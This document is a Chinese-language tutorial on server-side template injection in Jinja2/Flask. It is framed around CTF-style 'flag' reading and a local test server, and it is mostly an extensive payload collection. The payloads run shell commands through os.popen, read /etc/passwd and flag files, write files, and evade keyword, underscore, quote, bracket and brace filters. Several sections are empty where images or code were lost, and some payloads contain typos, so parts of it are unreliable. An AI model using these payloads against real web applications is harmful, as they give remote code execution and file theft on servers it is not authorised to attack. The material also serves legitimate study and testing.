# SSTI——从概念到利用
## 0x00 基础知识
### 0.0 什么是SSTI
`服务端模板注入(Server-Side Template Injection, SSTI)`从整体上可以分成服务端模板和注入两个点。
#### 服务端模板引擎(SST)
模板引擎是在 Web 开发中，为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，模板引擎会将模板文件和数据通过引擎整合生成最终的HTML代码并用于展示(<mark>一个字：渲染！</mark>)。
`模板引擎底层逻辑`就是进行字符串拼接。模板引擎利用正则表达式识别模板占位符，并用数据替换其中的占位符。

#### 注入(I)
这个就很简单了，例如我们常说的SQL注入，就是在本应输入正常数据的地方输入了我们构造的恶意数据，从而达到我们预期的攻击效果。

#### SSTI
SSTI主要常见于Python框架例如jinja2、mako、tornado、django，PHP 框架 smarty、twig，Java 框架 jade、velocity 等等，这些模板引擎的tags如下：


由于Python的jinja2遇到的比较多，因此接下来从jinja2入手展开来讲。

### 0.1 Jinja2
Jinja2是一种面向Python的现代和设计友好的模板语言，它是以Django的模板为模型的，是 Flask 框架的一部分。Jinja2 会把模板参数提供的相应的值替换了`{{…}}`块。
Jinja2模板同样支持控制语句，像在``块中。

### 0.2 Python内置函数
`内置函数`就是安装好Python后就可以直接使用的函数，不需要import任何模块。也就是说，当我们启动一个python解释器时，即时没有创建任何变量或者函数，还是会有很多函数可以使用。
`__builtins__`方法是做为默认初始模块出现的，可用于查看当前所有导入的内建函数。Python实现为部分对象类型添加了一些特殊的只读属性，它们具有各自的作用。其中一些并不会被 dir() 内置函数所列出。

一般常用的内置属性及函数如下(例子均在本地开的一个环境中复现的)：
> (1) <mark>`__class__`</mark> : 用于查看对象(实例)所属的类，如：\

\
> (2) <mark> `__bases__`</mark> : **用于查看当前类的直接父类或基类，是一个包含父类的元组**，仅在类对象上有效，同时也可以用数组索引来查看特定位置的值。**需要注意的是只会列出直接父类，不包含继承链中的间接父类**。如：\

\
> (3) <mark> `__base__`</mark> : 用于直接获取基类，如：\

\
> (4) `__mro__` : 全称是`Method Resolution Order`，即`方法解析顺序`，**用于表示类的继承顺序**，如：\

\
> (5) <mark>`__globals__`</mark> : 用于表示当前函数或方法的全局命名空间（即当前函数所在模块的全局作用域）。如：\

\
> (6) <mark>`__init__`</mark> : 调用初始化函数，可以用来跳到__globals__，例如：\
    ```
    {{config.__class__.__init__.__globals__['os']}}
    ```
    
\
> (7) `__subclasses__()` : 返回子类列表，例如：\

\
> (8) <mark>`__builtins__`</mark> : 包含了 Python 解释器的所有内置函数、异常、类型和其他对象,可以访问 Python 的所有内置对象。例如：\


\
> (9) `__dict__` : 返回类的静态函数、类函数、普通函数、全局变量以及一些内置的属性。例如：\

\
> (10) `__getattribute__()` : **实例、类、函数都具有的魔术方法**。事实上，在实例化的对象进行.操作的时候（形如:a.xxx/a.xxx() 都会自动去调用此方法。因此我们同样可以**直接通过这个方法来获取到实例、类、函数的属性。**
> (11) `__getitem__()` : 调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是`a.__getitem__('b')`, 例如：\

\
> (12) `__builtins__` : 内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。例如：\

\
> (13) <mark>`__import__`</mark> : 动态加载类和函数，也就是导入模块，经常用于导入os模块，`__import__('os').popen('ls').read()`:\

\
> (14) `__str__()` : 返回描写这个对象的字符串，可以理解成就是打印出来。例如：\

\
> (15) <mark>`url_for`</mark> : flask的一个方法，可以用于得到`__builtins__`，而且`url_for.__globals__['__builtins__']`含有current_app. 例如：\

\
> (16) `get_flashed_messages` : flask的一个方法，可以用于得到__builtins__。而且`get_flashed_messages.__globals__['__builtins__']`含有current_app例如：\

\
> (17) `lipsum` : flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：`{{lipsum.__globals__['os'].popen('ls').read()}}`\
> (18) `current_app` : 应用上下文，一个全局变量\
> (19) `config` : 当前application的所有配置。可以用于得到`__builtins__`。\

\
> (20) `request` : 也可以用来获取`__builtins__`.\
 

综上，我们可以看出，<mark>常规来讲基本上都为了获取`__builtins__`而对内置函数做各种拼接，因为`__builtins__`包含了我们执行命令所需的模块或方法。</mark>


## 0x01 漏洞原理
### 1.0 环境搭建
可参考[Flask-SSTI.py 简易服务](Flask-SSTI.py)

### 1.1 payload示例及解析
#### 示例一
```
{{[].__class__.__base__.__subclasses__()['method'].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```

首先拿到一个class，以下方式均可：
```python
{{''.__class__}}
# <class 'str'>
{{().__class__}}
# <type 'tuple'>
{{[].__class__}}
# <type 'list'>
{{{}.__class__}}
# <type 'dict'>
```
然后拿到基类`object`：
```python
{{''.__class__.__base__}}
# <class 'object'>
```
找一个能用的子类(即可以使用`__globals__`，一般找的子类可以是function类或method类)，例如这里我找的是`method` class并进行实例化：
```python
[].__class__.__base__.__subclasses__()['method'].__init__
```
得到一个对象实例后，就可以调用`__globals__`获取该方法所处空间的全局变量，其中包含`__builtins__`：
```python
[].__class__.__base__.__subclasses__()['method'].__init__.__globals__['__builtins__']
```
进而可以使用`__builtins__`下的`eval`函数以及具体命令：
```python
{{[].__class__.__base__.__subclasses__()['method'].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```

#### 示例二
```python
{{lipsum.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```


这个其实跟示例一的差别只是前面，即**准备一个具体函数**：
```python
lipsum   <=====>   [].__class__.__base__.__subclasses__()['method'].__init__
```

#### 示例三
```python
{{url_for.__globals__['os'].popen('whoami').read()}}
```
与示例二差不多。


### 1.2 常用payload(持续更新~)
#### 命令执行
```python
获得基类
# python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
# python3.7
''.__class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]


# 命令执行
#os执行
'''[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：'''
{{''.__class__.__mro__[2]__.__subclasses__()[xx].__init__.__globals__['os'].popoen('ls').read()}}
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
{{''.__class__.__mro__[2]__.__subclasses__()[xx].__init__.__globals__['linecache']['os'].popen('ls').read()}}
# eval,impoer等全局函数
'''[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：'''
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
{}.__class__.__bases__[0].__subclasses__()[xx].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
{}.__class__.__bases__[0].__subclasses__()[xx].__init__.__globals__['__builtins__']['__import__']('os').system('ls')
{}.__class__.__bases__[0].__subclasses__()[xx].__init__.__globals__.__builtins__.__import__('os').popen('id').read()

{{''.__class__.__mro[2]__.__subclasses__()[xx]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
{{''.__class__.__mro__[2]__.__subclasses__()[xx]['load_moudule']("os")["popen"]("ls").read()}}
{{''.__class__.__mro__[2].__subclasses__()[xx]["get_data"](0,"/etc/passwd")}}


# python3.7
#命令执行
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}

#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()

# 框架相关
{{url_for.__globals__['os'].popen('ls').read()}}
cycler               {{cycler.__init__.__globals__.os.popen('id').read()}}
joiner               {{joiner.__init__.__globals__.os.popen('id').read()}}
namespace            {{namespace.__init__.__globals__.os.popen('id').read()}}
lipsum               {{lipsum.__globals__['os']['popen']('ls').read()}}

{{sss.__init__.__globals__.__builtins__.open("/flag").read()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{request.application.__globals__['__builtins__']['__import__']('os').popen('ls').read()}}


# others
{{''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__'].eval("__import__('os').popen('type flag.txt').read()")}}
{{''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__'].open("flag.txt").read()}}





{{ b['eval']('__import__("os").popen("type flag.txt").read()') }}





```

#### 文件操作
```python
#python 2.7
# 文件操作
#  找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#python3.7 文件操作
{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}

# 框架相关文件读取
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
```


## 0x02 绕过姿势(持续更新~)
### 过滤器
对于过滤器的定义，官方解释如下：


翻译过来就是：
> 变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数。可以链接多个过滤器。一个过滤器的输出应用于下一个过滤器。\
> 例如，{{ name|striptags|title }} 将删除变量名中的所有HTML标记，并将title大小写为输出(title(striptags(name)))\
> 还有就是可以像是一个函数调用，例如`{{listx|join(',')}}`相当于`str.join(',',listx)`，将一个列表用`,`连接起来。

下面介绍几个常见的
#### attr
> Get an attribute of an object. `foo|attr("bar")` works like `foo.bar` just that always an attribute is returned and items are not looked up.

即：
```python
''.__class__ = ''|attr('__class__')
```

#### format
> Apply the given values to a printf-style format string, like `string % values`.

例如：
```python
''.__class__ = ''["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
```

#### first last random
> Return the first item of a sequence.\
> Return the last item of a sequence.\
> Return a random item from the sequence.

例如：
```python
"".__class__.__mro__|last() = "".__class__.__mro__[-1]
```


#### join
> Return a string which is the concatenation of the strings in the sequence. The separator between elements is an empty string per default, you can define it with the optional parameter:\
>    {{ [1, 2, 3]|join('|') }}\
>        -> 1|2|3\
>    {{ [1, 2, 3]|join }}
>        -> 123

例如常用的：
```python
''.__class__ = ''["__class__"] = ''[['__clas','s__']|join] = ''[('__clas','s__')|join]
```

#### lower
> Convert a value to lowercase.

例如：
```python
''["__class__"] = ""["__CLASS__"|lower]
```


#### replace(s: str, old: str, new: str, count: int | None = None)
> Return a copy of the value with all occurrences of a substring replaced with a new one. The first argument is the substring that should be replaced, the second is the replacement string. If the optional third argument count is given, only the first count occurrences are replaced:\
> {{ "Hello World"|replace("Hello", "Goodbye") }}
>    -> Goodbye World
> {{ "aaaaargh"|replace("a", "d'oh, ", 2) }}
>    -> d'oh, d'oh, aaargh

例如：
```python
''.__class__ = ''["__clall__"|replace("ll","ss")]
```

#### reverse
> Reverse the object or return an iterator that iterates over it the other way round.

例如：
```python
''.__class__ = ''["__ssalc__"|reverse]
```


#### string
> Make a string unicode if it isn’t already. That way a markup string is not converted back to unicode.

可以利用该过滤器把显示到浏览器中的值全部转换为字符串再通过下标引用，就可以构造出一些字符了，再通过拼接就能构成特定的字符串。
例如：
```python
(().__class__|string)[0] # <
```


#### select
> Filters a sequence of objects by applying a test to each object, and only selecting the objects with the test succeeding.
>If no test is specified, each object will be evaluated as a boolean.

例如：


那么也就是说可以从中选取一些字符进行拼接：
```python
__class__ <===>
(()|select|string)[24]~
(()|select|string)[24]~
(()|select|string)[15]~
(()|select|string)[20]~
(()|select|string)[6]~
(()|select|string)[18]~
(()|select|string)[18]~
(()|select|string)[24]~
(()|select|string)[24]
```


#### unique
> Returns a list of unique items from the given iterable.

例如：



#### list
> Convert the value into a list. If it was a string the returned list will be a list of characters.

例如：


主要用途是配合`string`转换成列表，就可以调用列表里面的方法取字符。


#### ...待补充


### 2.0 过滤关键字
以过滤了`__class__`为例，可以采用如下方法绕过：

#### 拼接
无符号拼接：
```python
''.__class__ = ''['__cla''ss__']
```
`+`拼接：
```python
''.__class__ = ''['__cla' + 'ss__']
```
`~`拼接：
```python
''.__class__ = ''['__cla'~'ss__']
{{''[a~b]}}
```

#### 编码绕过
16进制编码：
```python
''.__class__ = ''["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]
```
Unicode编码：
```python
''.__class__ = ''["\u005f\u005fclas\u0073\u005f\u005f"]
```
python字符串格式化：
```python
''.__class__ = ''["{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)]
#或者使用过滤器  ""["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
```
chr函数转换：
```python
 #
''.__class__ = ''[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]
```

#### 翻转
```python
''.__class__ = ''['__ssalc__'[::-1]]
```

#### str()内置方法
```python
''.__class__ = ""['__cTass__'.replace("T","l")] = ''['X19jbGFzc19f'.decode('base64')] = ''['__CLASS__'.lower()]
```

#### request
```python
''.__class__ = ''[request.args.a]?a=__class__
# 又如 ''.__class__.__mro__[2].__subclasses__() = ''[request.args.a][request.args.b][2][request.args.c]()?a=__class__&b=__mro__&c=__subclasses__
```
再如：
```python
{{x.__init__.__globals__[request.cookies.x1].eval(request.cookies.x2)}}
#然后首部设置Cookie:x1=__builtins__;x2=__import__('os').popen('cat /flag').read()

{{""[request["args"]["class"]][request["args"]["mro"]][1][request["args"]["subclass"]]()[286][request["args"]["init"]][request["args"]["globals"]]["os"]["popen"]("ls /")["read"]()}}
#post或者get传参 class=__class__&mro=__mro__&subclass=__subclasses__&init=__init__&globals=__globals__ (适用于过滤下划线)
```
#### 过滤器
`format`：
```python
''.__class__ = ''["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
```
`join`：
```python
''.__class__ = ''[('__clas','s__')|join]
```
`reverse`：
```python
''.__class__ = ''["__ssalc__"|reverse]
```
`replace`：
```python
''.__class__ = ''["__clall__"|replace("ll","ss")]
```

### 2.1 过滤中括号
#### `__getitem__`或`__getattribute__`
```python
# __getitem__用于获取字典中的键值
url_for.__globals__['__builtins__'] = url_for.__globals__.__getitem__('__builtins__')
# __getattribute__用于获取属性
''.__class__ = ''.__getattribute__('__class__')
```

#### `.`访问
```python
url_for.__globals__['__builtins__'] = url_for.__globals__.__builtins__
```

#### attr过滤器(常见于`.`和`[]`都被过滤情况)
```python
''.__class__ = ''|attr('__class__')
```

#### 其他方法
```python
url_for.__globals__.pop('__builtins__')#删除某个键值,返回值是改键值，不过不建议轻易使用，因为可能删除掉重要的东西
url_for.__globals__.get('__builtins__')#得到某个键值，这个好用
url_for.__globals__.setdefault('__builtins__')#和get类似
```

#### 混合使用
```python
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```


### 2.2 过滤下划线
#### request方法
```python
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
```

#### 过滤器拼接
例如：
```python
{{''["__class__"]}} = {{''[((()|select|string|list)[24]~(()|select|string|list)[24],"class",(()|select|string|list)[24]~(()|select|string|list)[24])|join]}}
```


还有格式化字符串(在前面提到过了)
```python
()|attr("%c%cclass%c%c"%(95,95,95,95))
```

#### 编码绕过(前面讲过的编码一般都适用)
16进制编码：
```python
().__class__ = ()["__class__"] = ()["\x5f\x5fclass\x5f\x5f"
```
Unicode编码：
```python
().__class__ = ()["__class__"] = ()["\u005f\u005fclass\u005f\u005f"]
```


### 2.3 过滤.
#### 中括号
```python
''.__class__ = ''["__class__"]
```
#### 过滤器
```python
''.__class__ = ''|attr("__class__")
```


### 2.4 过滤{}
#### ``绕过
```python


{{ c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()") }}


```

#### `1`curl外带绕过
```python
1
```

#### ``绕过
```python
# 1

#cookie: init=__init__;globals=__globals__;getitem=__getitem__;builtins=__builtins__;eval=eval;command=__import__("os").popen("cat /flag").read()

# 2

```

### 2.5 过滤单双引号
#### request绕过
```python
# 可以通过request.args的get传参输入引号内的内容，payload：
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
同时get传参?popen=popen&cmd=cat /flag
 
# 也可以通过request.form的post传参输入引号内的内容，payload：
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
同时post传参?popen=popen&cmd=cat /flag
 
# 还可以使用cookies传参，如request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.cookies.k1](request.cookies.k2).read() }}
同时post传参?k1=popen&k2=cat /flag

```

#### `chr()`绕过
```python

{{x.__init__.__globals__[chr(111)%2bchr(115)][chr(112)%2bchr(111)%2bchr(112)%2bchr(101)%2bchr(110)](chr(108)%2bchr(115)).read()}} #__globals__['os']['popen']('ls').read()
```

### 2.6 利用过滤器构造字符
#### `()|select|string|list`
通过这个过滤器组合可以获得一些字母、下划线和数字，例如：
```python
# 获取下划线
http://127.0.0.1:5000/mumu?{{(()|select|string|list)[24]}}

# 获取%
http://127.0.0.1:5000/mumu?{{(self|string|urlencode|list)[0]}}

# 获取.
http://127.0.0.1:5000/mumu?{{self|float|string|min}}

# 获取数字0
http://127.0.0.1:5000/mumu?{{(self|int)}}

# 获取数字1
http://127.0.0.1:5000/mumu?{{((self|int)**(self|int))|int}}

# 获取其他数字
```

#### `dict()|join`
```python
# 字符拼接
http://127.0.0.1:5000/mumu?{{dict(Q1ngD3ng=a,Y1=a)|join}}

# 获取数字1
http://127.0.0.1:5000/mumu?{{(dict(Q=a)|join|count)}}

# 获取数字8
http://127.0.0.1:5000/mumu?{{(dict(Q1ngD3ng=a)|join|count)}}
```

#### `拼接%c构造任意字符`
```python
    # 字符 c
    # 百分号 %
    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接




{% set xhx = bfhc%(95) %}{{xhx}}
```


## 参考
[\[1\] SSTI服务端模板注入漏洞原理详解及利用姿势集锦](https://www.cnblogs.com/2ha0yuk7on/p/16648850.html)
[\[2\] SSTI进阶](https://chenlvtang.top/2021/03/31/SSTI%E8%BF%9B%E9%98%B6/#google_vignette)
[\[3\] Python中的SSTI之Jinja2](https://jarenl.com/index.php/2024/11/15/jinja2/)
[\[4\] SSTI(Server-Side Template Injection)模板注入的初学习](https://www.cnblogs.com/NbCares/articles/17521233.html)
[\[5\] 一文了解SSTI和所有常见payload 以flask模板为例](https://cloud.tencent.com/developer/article/2130787)
[\[6\] jinja官方文档--内置过滤器清单](https://jinja.palletsprojects.com/en/stable/templates/#jinja-filters.abs)
[\[7\] Python SSTI利用jinja过滤器进行Bypass](https://cloud.tencent.com/developer/article/2287112)